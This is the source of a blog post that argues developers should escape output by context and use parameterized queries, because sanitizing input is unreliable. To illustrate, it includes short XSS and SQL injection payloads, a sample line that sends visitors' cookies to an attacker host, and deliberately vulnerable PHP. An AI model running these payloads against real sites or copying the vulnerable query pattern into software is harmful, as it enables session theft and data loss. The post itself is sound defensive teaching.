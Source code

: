 ```yaml
---
layout: default
title: Don’t try to sanitize input. Escape output.
permalink: /writings/dont-sanitize-do-escape/
description: Why you should escape output correctly, but generally not sanitize user input.
---
```

<h1><a href="{{ page.permalink }}">{{ page.title }}</a></h1>
<p class="subtitle">February 2020</p>


Every so often developers talk about "sanitizing user input" to prevent cross-site scripting attacks. This is well-intentioned, but leads to a false sense of security, and sometimes mangles perfectly good input.


## How does cross-site scripting happen?

A website is vulnerable to cross-site scripting (XSS) attacks if users can enter information that the site repeats back to them verbatim in a page's HTML. This might cause minor issues (HTML that breaks the page layout) or major ones (JavaScript that sends the user's login cookie to an attacker's site).

Let's walk through a concrete example:

1. NaiveSite allows you to enter your name, which is output as is on your profile page.
2. Billy the Kid enters his name as `Billy <script>alert('Hello Bob!')</script>`.
3. Anyone who visits Billy's profile page gets some HTML including the unescaped `script` tag, which their browser runs.
4. If the `alert()` were changed to something more malicious, like `sendCookies('https://billy.com/cookie-monster')`, Billy may now be collecting the unsuspecting visitor's login information.

Side note: it isn't quite this simple, as login cookies are usually marked `HttpOnly`, which means they're not accessible to JavaScript. But this is NaiveSite, so it's likely they made both an XSS mistake and a cookie one.


## Why input filtering isn't a great idea

The developer has heard of "input filtering" or "sanitizing input", so they write some code to strip out unsafe HTML characters `<>&` from the name before storing it. Problem solved!

But there are two problems with this. For one, a couple might sign up to NaiveSite as <code>Bob&nbsp;&amp;&nbsp;Jane&nbsp;Smith</code>, but the filtering code strips the `&`, and suddenly Bob is on his own, with a middle name of Jane.

Or if the filter is a bit more zealous and also strips `'` and `"`, someone like Bill O'Brien becomes Bill OBrien. Messing up [people's names](https://www.kalzumeus.com/2010/06/17/falsehoods-programmers-believe-about-names/) is not a good look.

Perhaps more importantly, it gives a false sense of security. What does "unsafe" mean? In what context? Sure, `<>&` are unsafe characters for HTML, but what about CSS, JSON, SQL, or even shell scripts? Those have a completely different set of unsafe characters.

For example, NaiveSite might have a PHP template that looks like this:

```html
<html>
...
<script>
var name = "<?=$name?>";
</script>
```

If an attacker sets their name to include double quotes, like `"; badFunc(); "`, they can run arbitrary JavaScript on any NaiveSite pages that display the user's name (which, if you're logged in, is probably all of them).

Another example of this kind of thing is SQL injection, an attack that's closely related to cross-site scripting. NaiveSite is powered by MySQL, and it finds users like so:

```php
$query = "SELECT * FROM users WHERE name = '{$name}'"
```

When a boy named [`Robert'); DROP TABLE users;`](https://xkcd.com/327/) comes along, NaiveSite's entire user database is deleted. Oops!

Incidentally, the mother in the xkcd comic says, "I hope you've learned to sanitize your database inputs." Which is somewhat confusing, but I'll give Randall the benefit of the doubt and assume he meant "escape your database parameters".

In short, it's no good to strip out "dangerous characters", because some characters are dangerous in some contexts and perfectly safe in others.


## Escape your output instead

The only code that knows what characters are dangerous is the code that's outputting in a given context.

So the better approach is to store whatever name the user enters verbatim, and then have the template system HTML-escape when outputting HTML, or properly escape JSON when outputting JSON and JavaScript.

And of course use your SQL engine's parameterized query features so it properly escapes variables when building SQL:

```php
$stmt = $db->prepare('SELECT * FROM users WHERE name = ?');
$stmt->bind_param('s', $name);
```

This is sometimes called “contextual escaping”. If you happen to use Go's [`html/template`](https://golang.org/pkg/html/template/) package, you get automatic contextual escaping for HTML, CSS, and JavaScript. Most other templating systems at least give you automatic HTML escaping, for example React, Jinja2, and Rails templates.


## But what if you *want* raw input?

One tricky situation is when your app's purpose is allowing a user to enter HTML or Markdown for display. In this case you can't escape when rendering output, because the whole purpose is to allow users to add links, images, headings, etc.

So you have to take a different approach. If you're using Markdown, you can either:

1. Allow them to only enter pure Markdown, and convert that to HTML on render (many Markdown libraries allow raw HTML by default; be sure to disable that). This is the most secure option, but also more restrictive.
2. Allow them to use HTML in the Markdown, but only a whitelist of allowed tags and attributes, such as `<a href="...">` and `<img src="...">`. Both [Stack Exchange](https://meta.stackexchange.com/a/135909/160696) and [GitHub](https://github.github.com/gfm/#disallowed-raw-html-extension-) take this second approach.

If you're not using Markdown but want to let your users enter HTML directly, you only have the second option -- you must filter using a whitelist. This is harder to get right than you'd think (for example, `<img src="x" onerror="badFunc()">`), so be sure to use a mature, security-vetted library like [DOMPurify](https://github.com/cure53/DOMPurify).

So in cases where you do need to "echo" raw user input, carefully filter input based on a restrictive whitelist, and store the result in the database. When you come to output it, output it as stored without escaping.

The parallel for SQL injection might be if you're building a data charting tool that allows users to enter arbitrary SQL queries. You might want to allow them to enter `SELECT` queries but not data-modification queries. In these cases you're best off using a proper SQL parser ([like this one](https://github.com/xwb1989/sqlparser)) to ensure it's a well-formed `SELECT` query -- but doing this correctly is not trivial, so be sure to get security review.


## What about validation?

Input sanitization is usually a bad idea, but input *validation* is a good thing.

For example, when you're parsing form fields, and you have a number field that's not a number, or an email address without an `@`, or a "post status" drop-down that can only be one of `draft`, `published`, or `archived` -- then by all means validate it and return an error if it's invalid.

Good web form validation shows errors inline so the user knows exactly what to fix:

![Web form validation](/images/form-validation.png)

You must do validation at least on the backend, otherwise an attacker could bypass the frontend validation and `POST` bogus data to your endpoint directly. In addition, you can also validate early on the frontend to show errors more real-time, without a round trip to the server.


## Further reading

OWASP has two cheat sheets on [Cross Site Scripting Prevention](https://owasp.org/www-project-cheat-sheets/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet) and [SQL Injection Prevention](https://owasp.org/www-project-cheat-sheets/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html) that contain a lot of further information on escaping.

There's also a StackOverflow [answer to "How can I sanitize user input with PHP?"](https://stackoverflow.com/questions/129677/how-can-i-sanitize-user-input-with-php/130323#130323) that is somewhat PHP-specific, but I found it succinct and helpful. It links to a page on PHP [magic quotes](https://www.php.net/manual/en/security.magicquotes.php), which were a bad idea and actually removed in PHP 5.4 -- the discussion there is very much in line with what I've written above.

If you have any feedback on this article, please get in touch!
